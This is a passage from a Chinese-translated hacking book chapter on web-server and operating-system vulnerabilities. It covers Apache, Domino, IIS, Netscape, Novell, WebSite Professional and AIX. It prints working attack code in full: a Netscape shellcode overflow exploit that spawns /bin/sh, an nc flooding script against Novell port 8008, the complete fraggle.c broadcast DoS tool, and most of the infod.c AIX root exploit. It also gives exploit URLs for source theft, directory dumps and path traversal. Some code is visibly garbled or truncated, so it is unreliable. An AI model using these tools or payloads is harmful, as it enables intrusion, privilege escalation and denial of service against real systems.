在本节中，我们将探讨与当前互联网上一些较流行的 Web 服务器守护程序相关的漏洞机密。讨论的 HTTP 服务器程序包括 Apache、Lotus Domino、Microsoft Internet Information Server、Netscape Enterprise Server、Novell Web Server、OS/2 Internet Connection Server 和 O'Reilly WebSite Professional。

**黑客笔记** 有关使用 **TigerSuite** 发现目标 Web 服务器守护程序的信息，请参阅第 12 章。

## Apache HTTP

由 Apache 小组开发的 Apache HTTP 服务器（www.apache.org），自 1996 年以来一直是互联网上最流行的 Web 服务器守护程序。其受欢迎的原因之一在于该软件免费随 UNIx 平台提供，并且是作为开源 HTTP 服务器进行开发和维护的。简而言之，这意味着软件代码可供公众审查、批评和共同修改。根据 Apache 小组的数据，2000 年 3 月的 Netcraft Web 服务器调查发现，互联网上超过 60% 的 Web 站点使用 Apache（如果包括 Apache 的衍生版本，则超过 62%），从而使其使用范围比所有其他 Web 服务器的总和都要广。传统上，Apache 主导了 Linux 等 UNIX 操作系统平台，但新版本已包含对 Windows（见图 9.6）和 Novell 的支持。

### 漏洞

#### CGI 信息泄露

**概述：** 黑客可以下载并查看 CGI 源代码。

**黑客状态：** 代码窃取。

**受影响对象：** Apache（SuSE 6.4 版本中的 1.3.12 版本）

**入侵方式：** Apache HTTP 服务器守护程序的默认安装和配置使黑客能够直接从互联网下载 CGI 脚本。基本上，存储在 /cgi-bin/ 目录中的脚本可以被访问、下载和查看，而不仅仅是主机执行。

#### 目录列表

**概述：** 黑客可以利用 Apache Win32 漏洞获取未授权的目录列表。

**黑客状态：** 未授权目录列表。


**图 9.6** Windows 版 Apache HTTP 服务器。

**受影响对象：** Apache（1.3.3、1.3.6 和 1.3.12 版本） Win32。

**入侵方式：** 当路径过长，Apache 在查找 HTTP 启动文件（例如，index.html）时，会导致此漏洞被利用。结果是未授权的目录列表，无论启动文件是否存在。

#### 拒绝服务攻击

**概述：** 黑客可以造成严重的 CPU 拥塞，导致服务中断。

**黑客状态：** 服务阻塞。

**受影响对象：** 1.2.5 版本之前的 Apache HTTP 服务器。

**入侵方式：** 攻击者可以通过发起多个同时的 HTTP 请求，并在 URL 中包含大量斜杠 (/) 来造成严重的 CPU 拥塞，从而导致服务中断。

## Lotus Domino

Domino（http://domino.lotus.com）是一个面向旨在提高客户响应能力并简化业务流程的公司的消息和 Web 应用程序软件平台。Domino 正日益成为企业、服务提供商和开发人员前端中流行的 Web 服务器守护程序。Lotus 自豪地宣称 Domino 能够交付安全的交互式 Web 应用程序，并为消息传递提供坚实的基础设施。换言之，Domino 被宣传为集成器——消除了将多个用于消息传递、安全性、管理和数据分配的软件产品捆绑在一起的担忧。目前，你可以使用 Domino Designer Java 编辑器和虚拟机（VM）用 Java、JavaScript（见图 9.7）和 HTML 设计各种应用程序。借助 Notes 客户端中的 JavaScript 和 HTML 支持，你可以开发在 internet 上运行的应用程序。


**图 9.7** Lotus Domino Java 应用程序开发。

### 漏洞

#### 数据窃取

**概述：** 黑客可以窃取基于 Domino 的互联网应用程序中的敏感数据。

**黑客状态：** 数据窃取。

**受影响对象：** 所有平台。

**入侵方式：** 黑客可以通过导航到基于 Domino 的站点中用于处理付款信息的部分，并删除 URL 中数据库名称右侧的所有内容来窃取数据。在此入侵的一个常见示例中，整个数据库视图被暴露；这些视图包括一个包含先前注册信息的全景视图和一个包含“所有文档”的视图。通过点击集合链接，黑客可以显示包含客户姓名、地址、电话号码和付款信息的视图。

#### 远程攻击

**概述：** 可供查看的文档可以通过互联网进行编辑。

**黑客状态：** 内容攻击。

**受影响对象：** 所有平台。

**入侵方式：** 攻击者可以利用通过 Domino 提供且允许用户编辑功能的文档的访问权限。通过修改 URL，浏览器将发送 “EditDocument” 而不是 “OpenDocument”，从而使易受攻击的位置以编辑视图显示文档，允许攻击者修改文件数据。

#### 远程攻击

**概述：** 文档可以通过互联网进行编辑。

**黑客状态：** 内容攻击。

**受影响对象：** 所有平台。

**入侵方式：** 通过在目标 URL 后附加 *domcfg.nsf/?open*，攻击者可以轻松确定远程数据库编辑功能。此时，在没有密码身份验证的情况下，目标文档易受读/写属性影响。

## Microsoft Internet Information Server

Microsoft（www.microsoft.com/iis）的 Internet Information Server（IIS）（图 9.8）作为互联网上最受欢迎的 Web 服务守护程序之一，正在逐步取代 UNIX Apache 服务器。Windows NT Server 内置的 Web 守护程序 IIS 使其作为内部网服务器易于协作；并且作为 Windows NT 最快的 Web 服务器，它完全集成于 Windows NT 目录服务中。IIS Active Server Pages（ASP）提供了一个先进的、开放的、非编译的应用程序环境，你可以在其中结合 HTML、脚本和可重用的 ActiveX 服务器组件来创建动态、安全的基于 Web 的商务解决方案。借助 FrontPage，Microsoft 轻松地将自定义 Web 设计集成到当前的 HTML 页面中或创建新项目。另一个功能是易于使用的 GUI 管理模块。使用 Microsoft Internet 服务管理器，互联网/内部网服务守护程序的配置只需单击即可完成。


图 9.8 Microsoft Internet Information Server 管理器。

### 漏洞

#### 拒绝服务攻击

**概述：** 格式错误的 GET 请求可能导致服务中断。

**黑客状态：** 服务阻塞。

**受影响对象：** IIS v.3/4。

**入侵方式：** HTTP GET 类似于通过标准浏览器进行的命令行文件获取技术。攻击者可以故意发起格式错误的 GET 请求以导致 IIS 拒绝服务（DoS）状况，这会消耗所有服务器资源，从而使服务守护程序“挂起”。

**概述：** Sioux DoS 入侵可导致立即的 CPU 拥塞。

**黑客状态：** 严重拥塞。

**受影响对象：** IIS v.3/4。

**入侵方式：** 由 Dag-Erling Coidan Smørgrav 编写的 *Sioux.c*（可在本书的 CD 上获取），该 DoS 入侵导致 CPU 利用率立即增加到 85%。多次 DoS 攻击会导致持续的 CPU 拥塞，从 45% 到 80%，如果同时用 HTTP 请求淹没 IIS，则可能高达 100%。

#### 窃取 ASP 代码

**概述：** 具有备用数据流的 ASP 漏洞。

**黑客状态：** 代码窃取。

**受影响对象：** IIS v.3/4。

**入侵方式：** URL 及其包含的数据形成称为流的对象。通常，数据流通过引用关联的文件名来访问，进一步命名的流对应于 文件名:流名。该漏洞与未命名数据流有关，可以使用 文件名::$DATA 来访问。黑客可以打开 www.target.com/file.asp::$DATA，并看到 ASP 代码的源代码，而不是输出。

#### 特洛伊上传

**概述：** 黑客可以在易受攻击的 IIS 守护程序上执行主观编码。

**黑客状态：** 未授权访问和代码执行。

**受影响对象：** IIS v.4

**入侵方式：** 守护程序的缓冲区被编程为预留系统内存以处理传入数据。当程序接收到异常大量的数据时，这可能导致“缓冲区溢出”事件。IIS 4.0 htr/ism.dll 代码中存在远程可利用的缓冲区溢出问题。目前，互联网上超过 85% 的 IIS Web 服务器守护程序易受攻击，方法是将调试器的指令指针（eip）重定向到加载的 dll 的地址。有关更多信息，请参阅 ftp://ftp.technotronic.com/microsoft/ishack.asm。

## Netscape Enterprise Server

作为可伸缩的 Web 服务器守护程序，Netscape Enterprise Server（www.netscape.com/enterprise）经常针对大型 Web 站点进行营销（见图 9.9）。被 PC Magazine 评为 1998 年最佳产品，此 Web 守护程序套件正驱动着互联网上一些最大的电子商务、ISP 和门户 Web 站点。引用的企业服务器站点包括 E*Trade (www.etrade.com)、Schwab (www.schwab.com)、Digex (www.digex.com)、Excite (www.excite.com) 和 Lycos (www.lycos.com)。通过提供故障切换、自动恢复、动态日志等功能


图 9.9 Netscape 企业服务器管理器。

借助轮换机制和内容安全特性，Netscape 企业服务器的应用已成为一项广泛的商业成功。

## 潜在风险

### 缓冲区溢出

**概要：** 旧版本的 Netscape 可能容易受到缓冲区溢出攻击。

**攻击状态：** 缓冲区溢出。

**易受攻击版本：** 早先的 UNIX 版本。

**突破方式：** 以下 CGI 脚本最初由黑客/程序员 Dan Brumleve 编写，可用于测试较老 UNIX 版本的缓冲区溢出完整性：

这业务非常棘手。Netscape 将不可打印字符（0x80 - 0x90，可能还有其他）映射为 0x3f ('?')，因此机器代码必须不包含这些字符。这使得调用 `int 0x80` 变得不可能，因此我将 `int 0x40` 放在那里，并编写了代码在调用前将这些字节向左移位。此外，由于 C 语言字符串约定，不能使用空字符。以下代码的第一段将第二段中的 `int 0x40` 转换为 `int 0x80`。第二段代码使 SIGALRM 处理程序失效。

```c
sub parse {
	join("", map { /^ [0-9A-Fa-f] ( 2 ) S/ ? pack ("c", hex ($_)) : "" } @_ );
}

my $pre = parse qw{
31 c0 # xorl $eax,$eax
66 b8 ff 0f # movw $0x1056,$ax
01 c4 # addl $eax,$esp
c0 24 24 01 # shlb $1,($esp)
29 c4 # subl $eax,$esp

31 c0 b0 30
31 db b3 0e
31 c9 b1 01
cd 40
} ;

my $code = $pre . parse qw{
b0 55 # movb $0x55,$al (marker)
eb 58 # (jump below)

5e # popl $esi

56 # pushl $esi
5b # popl $ebx
43 43 43 43 43
43 43 43 43 43 # addl $0xb,$ebx

21 33 # andl $esi,(%ebx)
09 33 # orl $esi,(%ebx)

31 c0 # xorl $eax,$eax
66 b8 56 10 # movw $0x1056,$ax
01 c4 # addl $eax,$esp
c0 24 24 01 # shlb $1,($esp)
33 c0 # xorl $eax,$eax
b0 05 # movb $5,$al
01 c4 # addl $eax,$esp
c0 24 24 01 # shlb $1,($esp)
29 c4 # subl $eax,$esp
66 b8 56 10 # movw $0x1056,$ax
29 c4 # subl $eax,$esp

31 d2 # xorl $edx,$edx
21 56 07 # andl $edx,0x7($esi)
21 56 0f # andl $edx,0xf($esi)
b8 1b 56 34 12 # movl $0x1234561b,$eax
35 10 56 34 12 # xorl $0x12345610,$eax

21 d9 # andl $ebx,$ecx
09 d9 # orl $ebx,$ecx

4b 4b 4b 4b 4b 4b
4b 4b 4b 4b 4b # subl $0xb,$ebx

cd 40 # int $0x80
31 c0 # xorl $eax,$eax
40                # incl \seax
cd 40               # int $0x80

e8 a3 ff ff ff      # (call above)
} ;

$code .= "/bin/sh";

my $transmission = parse qw{
6f 63 65 61 6e 20 64 65 73 65 72 74 20 69 72 6f 6e # inguz
20 66 65 72 74 69 6c 69 7a 61 74 69 6f 6e 20 70 68 # inguz
79 74 6f 70 6c 6e 6b 74 6f 6e 20 62 6c 6f 6d 6d # inguz
20 67 61 74 65 73 20 73 6f 76 65 72 65 65 67 74 # inguz
79
} ;

my $nop = "\ x90"; # this actually gets mapped onto 0x3f, but it doesn't seem to matter

my $address = "\x10\xdb\xff\xbf"; # wild guess, intended to be some where in the chunk of nops. works on every linux box i've tried it on so far.

my $len = 0x1000 - length($pre);
my $exploit = ($nop x 1138) . ($address x 3) . ($nop x $len) . $code ;
# the first $address is in the string replaces another
# pointer in the same function which gets dereferenced
# after the buffer is overflowed. there must be a valid
# address there or it will segfault early.

print <
```

## 结构探测

**概要：** 可以利用 Netscape 企业服务器在探测阶段显示目录和子目录列表，从而集中进行基于 Web 的攻击。

**攻击状态：** 探测。

**易受攻击版本：** Netscape 企业服务器 3x/4。

**突破方式：** 如果启用了“Web Publishing”（Web 发布）功能，黑客操纵特定标签即可突破 Netscape 企业服务器，从而显示目录和子目录列表：

```
http://www.example.com/?wp-cs-dump
```

这将显示该 Web 服务器根目录的内容。此外，还可以获取子目录的内容。其他可利用的标签包括：

- ?wp-ver-info
- ?wp-htm1-rend
- ?wp-usr-prop
- ?wp-ver-diff
- ?wp-verify-link
- ?wp-start-ver
- ?wp-stop-ver
- ?wp-uncheckout

# Novell Web 服务器

作为 Web 服务器市场的竞争者，Novell (www.novell.com) 提供了一种将现有的 NetWare 4.11 服务器转变为内部网络/互联网服务器的简单方法。凭借集成搜索引擎、SSL 3.0 支持以及增强的数据库连接能力，Novell 的新型 Web 服务器是许多“Novell”企业基础设施的理想平台。此外，Novell 和 Netscape 结盟成立的新公司 Novonyx 正致力于编译适用于 NetWare 的基于 Netscape SuiteSpot 的软件。

## 潜在风险

### 拒绝服务攻击

**概要：** Novell 服务可能会因 DoS TCP/UDP 攻击而中断。

**攻击状态：** 系统崩溃。

**易受攻击版本：** Netware 4.11/5。

**突破方式：** 使用 Novell Web 服务器并运行其自带的 *tcip.nlm* 模块，会开放一个拒绝服务漏洞，允许攻击者攻击 echo 和 charger 服务。

**端口：** 7

**服务：** echo

**黑客策略：** 此端口与通信模块相关，该模块将传输的信号回传（回声）给发送方，且该信号区别于原始信号。向主计算机回显消息有助于测试网络连接。PING 是执行的主要消息生成工具。端口 7 的 echo 服务的关键问题涉及试图处理超大包的系统。一种易受攻击的回声过载变体是通过发送长度超过 65,536 字节的分片数据包来实现的，导致系统错误处理数据包，可能引发系统停止或重启。这个问题通常被称为“死亡之 Ping 攻击”（Ping of Death Attack）。端口 7 的另一种常见偏离行为被称为“Ping 洪水”（Ping Flooding）。这种频繁操作也利用了计算机的响应性，通过持续轰炸 PING 或 ICMP 回显请求，导致系统资源和网络段过载拥塞。

**端口：** 19

**服务：** charger

**黑客策略：** 端口 19 及其对应的服务守护进程 chargen 看起来无害。该服务的基本操作可以从其名称（*character stream generator*，字符流生成器）中轻松推断出来。不幸的是，该服务容易受到 telnet 连接的利用，该连接可以生成一串字符，并将输出重定向到例如端口 53（DNS）的 telnet 连接。在此示例中，字符洪水导致 DNS 服务发生访问违规故障，随后服务终止，导致名称解析服务中断。

使用黑客大神 Army 编写的 *armudp.c* 涉及向主机的 chargen 端口发送 UDP 数据包，并将数据包的源端口设置为 echo，源地址设置为 localhost 或广播地址。源地址设置为外部主机的 UDP 数据包不太可能被过滤，因此将是黑客的通用选择。

### 利用探测

**概要：** 可以利用 Novell Web 服务器在探测阶段揭示服务器上的完整 Web 路径，从而集中进行基于 Web 的攻击。

**攻击状态：** 探测。

**易受攻击版本：** GroupWise 5.2 和 5.5。

**突破方式：** 模块 GWWEB.EXE 中的 help 参数会揭示服务器上的完整 Web 路径：

```
http://server/cgi-bin/GW5/GWWEB.EXE?HELP=bad-request
```

常见的回复将是

```
File not found: SYS:WEB\CGI-BIN\GW5\US\HTML3\HELP\BAD-REQUEST.HTM
```

参考此示例返回的路径，攻击者可以通过发送以下内容获取主要 Web 站点界面：

```
http://server/cgi-bin/GW5/GWWEB.EXE?HELP=../ ../ ../index
```

### 远程溢出

**概要：** 远程黑客可以通过基于 Web 的访问服务向远程管理端口发送大型 GET 请求，从而引发拒绝服务缓冲区溢出。

**攻击状态：** 未授权访问和代码执行。

**易受攻击版本：** GroupWise 5.2 和 5.5。

**突破方式：** Netware 服务器通过远程 HTTP（通常为端口 8008）管理协议存在潜在的缓冲区溢出漏洞。以下是该利用代码的列表：

```c
**nwtp.c**

#!/bin/sh

SERVER=127.0.0.1
PORT=8008
WAIT=3
```


```
DUZOA=`perl -e '{ print "A"x4093 }`
MAX=30

while :; do
    ILE=0
    while [ $ILE -lt $MAX ]; do
    (
        (
        echo "GET /"
        echo $DUZOA
        echo
        ) | nc $SERVER $PORT &
        sleep $WAIT
        kill -9 $!
    ) &>/dev/null &
    ILE=$[ILE+1]
    done
    sleep $WAIT
done
```

# O’Reilly WebSite Professional

被评为增长最快的个人和互联网服务器守护进程之一，WebSite Professional ([http://website.oreilly.com](http://website.oreilly.com)) 是市场上最健壮的 Web 服务器之一（见图 9.10）。凭借其定制的 CGI 和 Perl 支持，加上 VBScript、JavaScript、Python 和 Microsoft ASPA 脚本标准化功能，这套工具在使用便捷性和可编程性方面无出其右。凭借该产品，即便是普通的初学者也能在几分钟内构建出标准的 Web 服务器配置。


# 潜在风险

## 拒绝服务攻击

**摘要：** WebSite Professional 存在易受拒绝服务（DoS）攻击的漏洞，该攻击会导致立即的 CPU 拥塞，从而造成服务负担。

**入侵状态：** 严重拥塞。

**漏洞：** 所有版本。

**入侵详情：** 此拒绝服务渗透攻击（*fraggle.c*）会导致系统 CPU 使用率立即飙升至 100%。多次拒绝服务攻击会导致 CPU 拥塞持续在 68% 到 85% 之间，如果同时遭受 HTTP 请求洪泛，则可能高达 100%。

### Fraggle.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <signal.h>

struct pktinfo
{
    int ps;
    int src;
    int dst;
};

void fraggle(int, struct sockaddr_in *, u_long, struct pktinfo *);
void sigint(int);
unsigned short checksum(u_short *, int);

int main(int argc, char *argv[])
{
    struct sockaddr_in sin;
    struct hostent *he;
    struct pktinfo p;
    int s, num, delay, n, cycle;
    char **bcast = malloc(1024);
    char buf[32];
    FILE *bfile;

    /* banner */
    fprintf(stderr, "\nfraggle.c by TFreak\n\n");

    /* capture ctrl-c */
    signal(SIGINT, sigint);

    /* check for enough cmdline args */
    if (argc < 5)
    {
        fprintf(stderr, "usage: %s [target] [bcast file] [num packets] [packet delay] [dstport] [srcport] [psize] \n\n"
                          "target\t\t= address to hit\n"
                          "bcast file\t= file containing broadcast address\n"
                          "num packets\t= send n packets (n = 0 is constant)\n"
                          "packet delay\t= usleep() between packets (in ms)\n"
                          "dstport\t\t= port to hit (default 7)\n"
                          "srcport\t\t= source port (0 for random)\n"
                          "ps\t\t= packet size\n\n",
                          argv[0]);
        exit(-1);
    }

    /* get port info */
    if (argc >= 6)
        p.dst = atoi(argv[5]);
    else
        p.dst = 7;

    if (argc >= 7)
        p.src = atoi(argv[6]);
    else
        p.src = 0;

    /* packet size redundant if not using echo port */
    if (argc >= 8)
        p.ps = atoi(argv[7]);
    else
        p.ps = 1;

    /* other variables */
    num = atoi(argv[3]);
    delay = atoi(argv[4]);

    /* resolve host */
    if (isdigit(*argv[1]))
        sin.sin_addr.s_addr = inet_addr(argv[1]);
    else
    {
        if ((he = gethostbyname(argv[1])) == NULL)
        {
            fprintf(stderr, "Can't resolve hostname!\n\n");
            exit(-1);
        }
        memcpy((caddr_t) &sin.sin_addr, he->h_addr, he->h_length);
    }

    sin.sin_family = AF_INET;
    sin.sin_port = htons(0);

    /* open bcast file and build array */
    if ((bfile = fopen(argv[2], "r")) == NULL)
    {
        perror("Opening broadcast file");
        exit(-1);
    }

    n = 0;
    while (fgets(buf, sizeof buf, bfile) != NULL)
    {
        buf[strlen(buf) - 1] = 0;
        if (buf[0] == '#' || buf[0] == '\n' || !isdigit(buf[0]))
            continue;

        bcast[n] = malloc(strlen(buf) + 1);
        strcpy(bcast[n], buf);
        n++;
    }
    bcast[n] = NULL;
    fclose(bfile);

    /* check for addresses */
    if (!n)
    {
        fprintf(stderr, "Error: No valid addresses in file!\n\n");
        exit(-1);
    }

    /* create our raw socket */
    if ((s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) <= 0)
    {
        perror("creating raw socket");
        exit(-1);
    }

    printf("Flooding %s ( . = 25 outgoing packets)\n", argv[1]);

    for (n = 0, cycle = 0; n < num || !num; n++)
    {
        if (!(n % 25))
        {
            printf(".");
            fflush(stdout);
        }

        srand(time(NULL) * rand() * getpid());
        fraggle(s, &sin, inet_addr(bcast[cycle]), &p);

        if (bcast[++cycle] == NULL)
            cycle = 0;

        usleep(delay);
    }

    sigint(0);
    return 0;
}

void fraggle(int s, struct sockaddr_in *sin, u_long dest, struct pktinfo *p)
{
    struct iphdr *ip;
    struct udphdr *udp;
    char *packet;
    int r;

    packet = malloc(sizeof(struct iphdr) + sizeof(struct udphdr) + p->ps);
    ip = (struct iphdr *)packet;
    udp = (struct udphdr *)(packet + sizeof(struct iphdr));

    memset(packet, 0, sizeof(struct iphdr) + sizeof(struct udphdr) + p->ps);

    /* ip header */
    ip->protocol = IPPROTO_UDP;
    ip->saddr = sin->sin_addr.s_addr;
    ip->daddr = dest;
    ip->version = 4;
    ip->ttl = 255;
    ip->tos = 0;
    ip->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + p->ps);
    ip->ihl = 5;
    ip->frag_off = 0;
    ip->check = checksum((u_short *)ip, sizeof(struct iphdr));

    /* udp header */
    udp->len = htons(sizeof(struct udphdr) + p->ps);
    udp->dest = htons(p->dst);

    if (!p->src)
        udp->source = htons(rand());
    else
        udp->source = htons(p->src);

    /* send it on its way */
    r = sendto(s, packet, sizeof(struct iphdr) + sizeof(struct udphdr) + p->ps,
               0, (struct sockaddr *)sin, sizeof(struct sockaddr_in));

    if (r == -1)
    {
        perror("\nSending packet");
        exit(-1);
    }

    free(packet); /* free willy 2! */
}

unsigned short checksum(u_short *addr, int len)
{
    register int nleft = len;
    register u_short *w = addr;
    register int sum = 0;
    u_short answer = 0;

    while (nleft > 1)
    {
        sum += *w++;
        nleft -= 2;
    }

    if (nleft == 1)
    {
        *(u_char *)(&answer) = *(u_char *)w;
        sum += answer;
    }

    sum = (sum >> 17) + (sum & 0xffff);
    sum += (sum >> 17);
    answer = ~sum;
    return (answer);
}

void sigint(int ignoremewhere)
{
    fprintf(stderr, "\nDone!\n\n");
    exit(0);
}
```

## 结论

对于网关、路由器和互联网服务器守护进程而言，存在着大量的黑客攻击隐患。在本章中，我们回顾了一些在地下黑客圈中较为常见的隐患。本书末尾 CD 光盘上的 Tiger Tools 资源库可以帮助您搜索针对您分析对象的特定隐患。此外，务必查看 [www.TigerTools.net](http://www.TigerTools.net) 以获取必要的工具和利用代码汇编。让我们进入下一章，讨论针对各种操作系统的黑客攻击渗透技术。

## 第 10 章

# 操作系统

操作系统（O/S）可以定义为计算机系统在运行之前所需的指令集合。因此，O/S 是任何计算机系统中最重要的软件。计算机依赖 O/S 来管理所有已安装和连接的程序及硬件。一个很好的类比是将操作系统想象成邮局：邮局负责您所在社区邮件的流动；同样，O/S 掌控着您计算机系统中信息的流动。

操作系统通常根据其主机系统功能进行分类，这些功能可能包括超级计算机、大型机、服务器、工作站、桌面甚至手持设备。O/S 决定了数据如何保存到存储设备；它跟踪文件名、位置和安全状态，同时控制所有连接的设备（如图 10.1 所示）。当计算机开机时，操作系统会自动加载到内存中，进行初始化并运行其他程序。此外，当其他程序运行时，O/S 继续在后台运行。流行的操作系统包括 DOS、Microsoft Windows、MacOS、SunOS 和 UNIX。

黑客们从这些操作系统开发之初就开始利用它们，因此本节的目的是介绍用于操纵这些操作系统的各种黑客技术。调查内容将包括


图 10.1 操作系统功能。

AIX、BSD、Digital、HP/UX、IRIX、UNIX、Linux、Macintosh、Windows、OS/2、SCO、Solaris 和 VAX/VMS。我们将首先从 UNIX 开始。

# UNIX


## 通用 UNIX 漏洞与命令列表

各类 UNIX 操作系统都存在大量可利用的漏洞。尽管尚未进行或记录广泛的测试，但部分漏洞可以利用于不同的 UNIX 类型，或经修改后可互通使用。针对所有 UNIX 版本的常见入侵方法包括：root 权限提升、缓冲区溢出攻击、泛洪攻击以及前文描述的通用端口守护进程劫持。

以下列出的常见深层命令可作为 UNIX 漏洞执行的参考：

- **alias**：查看当前别名。
- **awk**：在文件中搜索模式。
- **bdiff**：比较两个大文件。
- **bfs**：扫描大文件。
- **ca**：显示日历。
- **cat**：连接并打印文件。
- **cc**：C 语言编译器。
- **cd**：更改目录。
- **chgrp**：更改组所有权。
- **chmod**：更改文件权限。
- **chown**：更改文件所有权。
- **cmp**：比较两个文件。
- **comm**：比较两个文件中的公共行。
- **cp**：复制文件。
- **cu**：呼叫另一个 UNIX 系统。
- **date**：显示日期。
- **df**：列出已挂载的驱动器。
- **diff**：显示两个文件之间的差异。
- **du**：以块为单位显示磁盘使用情况。
- **echo**：将数据回显到屏幕或文件。
- **ed**：文本编辑器。
- **env**：列出当前环境变量。
- **ex**：文本编辑器。
- **expr**：评估数学公式。
- **find**：查找文件。
- **f77**：Fortran 编译器。
- **format**：初始化软盘。
- **grep**：在文件中搜索模式。
- **help**：帮助。
- **kill**：终止运行中的进程。
- **ln**：在两个文件之间创建链接。
- **ls**：列出目录中的文件。
- **mail**：发送/接收邮件。
- **mkdir**：创建目录。
- **more**：显示数据文件。
- **mv**：移动或重命名文件。
- **nohup**：在注销后继续运行命令。
- **nroff**：格式化文本。
- **passwd**：更改密码。
- **pkgadd**：安装新程序。
- **ps**：列出当前正在运行的进程。
- **pwd**：显示工作目录的名称。
- **rm**：删除文件。
- **rmdir**：删除目录。
- **set**：列出 shell 变量。
- **setenv**：设置环境变量。
- **sleep**：暂停进程。
- **source**：刷新并执行文件。
- **sort**：对文件进行排序。
- **spell**：检查拼写错误。
- **split**：分割文件。
- **stty**：设置终端选项。
- **tail**：显示文件末尾。
- **tar**：将指定文件压缩到一个文件中。
- **touch**：创建空文件。
- **troff**：格式化输出。
- **tset**：设置终端类型。
- **umask**：指定新的创建掩码。
- **uniq**：比较两个文件。
- **uucp**：UNIX 到 UNIX 复制/执行。
- **vi**：全屏文本编辑器。
- **volcheck**：检查已挂载的软盘。
- **wc**：显示详细信息。
- **who**：显示当前用户。
- **write**：向其他用户发送消息。
- **!**：重复命令。

## AIX 简介

AIX 是 IBM（www.ibm.com）开发的集成版 UNIX 操作系统，支持 32 位和 64 位系统。运行 AIX 的计算机涵盖了整个 RS/6000 系列，从入门级服务器和工作站到强大的超级计算机，如 RS/6000 SP。值得注意的是，AIX 是其同类系统中第一个获得独立安全评估并支持包括 C2 和 B1 功能在内的选项的操作系统（有关安全级别的解释见第 3 部分）。此外，得益于新的基于 Web 的管理系统，可以从互联网上的任何位置远程管理 AIX 系统，如图 10.2 所示。


**图 10.2** AIX 远程网络配置。

## 风险与漏洞

### 照亮密码

**概述：** 诊断命令可以揭示阴影中的密码——即编码的单向哈希算法。

**危害状态：** 密码暴露。

**易受攻击性：** AIX 3x/4x+。

**入侵方法：** 在故障排除时，AIX 支持团队通常要求提供 `snap -a` 命令的输出。作为诊断工具，该命令会将系统信息（包括密码）导出到自由磁盘空间的一个目录中。由于这一潜在威胁，黑客可以针对 `/tmp/b/msupf/general/` 目录并定位密码文件，从而绕过密码阴影保护。

### 远程 Root 权限

**概述：** AIX infod 守护进程存在远程 root 登录漏洞。

**危害状态：** 未经授权的 root 访问。

**易受攻击性：** AIX 3x/4x。

**入侵方法：** AIX 中的 Info Explorer 模块用于集中文档管理；因此，它不会对发送到本地套接字的数据进行任何验证，该套接字是绑定的。结果，黑客可以向守护进程模块发送虚假数据，从而欺骗已建立的连接指向入侵者的 X 显示。通过发送用户标识 (UID) 和组标识 (GID) 为 0 的虚假环境，该守护进程应被迫以 root 权限生成此连接，如下面由 UNIX 高手 Arisme 编写的程序 `infod.c` 所示。

#### infod.c 代码

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <pwd.h>

#define TAILLE_BUFFER 2000
#define SOCK_PATH "/tmp/.info-help"
#define PWD "/tmp"
#define KOPY "Infod AIX exploit (c) Arisme 21/11/98\nAdvisory RSI.0011.11-09-98.AIX.INFOD\n(http://www.repsec.com)"
#define NOUSER "Usage : infofun [login]"
#define UNKNOWN "User does not exist !"
#define OK "Waiting for magic window ..."
#define INFO "If you have problems check the xhost \""

void send_environ(char *var,FILE *param)
{
    char tempo[TAILLE_BUFFER];
    int taille;

    taille=strlen(var);
    sprintf(tempo, "%c%s%c%c%c",taille,var,0,0,0);
    fwrite(tempo,1,taille+4,param);
}

main(int argc,char** argv) {
    struct sockaddr_un sin,expediteur;
    struct hostent *hp;
    struct passwd *info;
    int chaussete,taille_expediteur,port,taille_struct,taille_param;
    char buffer[TAILLE_BUFFER],paramz[TAILLE_BUFFER],*disp,*pointeur;
    FILE *param;

    char *HOME,*LOGIN;
    int UID,GID;

    printf("\n\n%s\n\n",KOPY);
    if (argc!=2) {
        printf("%s\n",NOUSER);
        exit(1);
    }

    info=getpwnam(argv[1]);
    if (!info) {
        printf("%s\n",UNKNOWN);
        exit(1);
    }

    HOME=info->pw_dir;
    LOGIN=info->pw_name;
    UID=info->pw_uid;
    GID=info->pw_gid;

    param=fopen("/tmp/tempo.fun","wb");

    chaussete=socket(AF_UNIX,SOCK_STREAM,0);
    sin.sun_family=AF_UNIX;
    strcpy(sin.sun_path,SOCK_PATH);
    taille_struct=sizeof(struct sockaddr_un);

    if (connect(chaussete,(struct sockaddr*)&sin,taille_struct)<0) {
        perror("connect");
        exit(1);
    }

    /* 0 0 PF_UID pf_UID 0 0 */
    sprintf(buffer,"%c%c%c%c%c%c%c",0,0,UID>>8,UID- ((UID>>8)*256),0,0);
    fwrite(buffer,1,6,param);

    /* PF_GID pf_GID */
    sprintf(buffer,"%c%c",GID>>8,GID-((GID>>8)*256));
    fwrite(buffer,1,2,param);

    /* DISPLAY (259) */
    bzero (buffer,TAILLE_BUFFER) ;
    strcpy (buffer, getenv ("DISPLAY")) ;
    fwrite (buffer, 1, 259, param) ;

    /* LANG (1 C 0 0 0 0 0 0) */
    sprintf (buffer, "%c%c%c%c%c%c%c%c%c", 1, 67, 0, 0, 0, 0, 0, 0) ;
    fwrite (buffer, 1, 9, param) ;

    /* size_$HOME $HOME 0 0 0 */
    send_environ (HOME, param) ;

    /* size_$LOGNAME $LOGNAME 0 0 0 */
    send_environ (LOGIN, param) ;

    /* size_$USERNAME $USERNAME 0 0 0 */
    send_environ (LOGIN, param) ;

    /* size_$PWD $PWD 0 0 0 */
    send_environ (PWD, param) ;

    /* size_DISPLAY DISPLAY 0 0 0 */
    //send_environ (ptsname(0), param) ;

    /* If we send our pts, info_gr will crash as it has already changed UID */
    send_environ ("/dev/null", param) ;

    /* It's probably not useful to copy all these environment vars but it was good for debugging :) */
    sprintf (buffer, "%c%c%c%c", 23, 0, 0, 0) ;
    fwrite (buffer, 1, 4, param) ;

    sprintf (buffer, "_=./startinfo") ;
    send_environ (buffer, param) ;

    sprintf (buffer, "TMPDIR=/tmp") ;
    send_environ (buffer, param) ;

    sprintf (buffer, "LANG=%s", getenv ("LANG")) ;
    send_environ (buffer, param) ;

    sprintf (buffer, "LOGIN=%s", LOGIN) ;
    send_environ (buffer, param) ;
}
```


```c
sprintf (buffer, "NLSPATH=%s", getenv("NLSPATH"));
send_environ (buffer, param);

sprintf (buffer, "PATH=%s", getenv("PATH"));
send_environ (buffer, param);

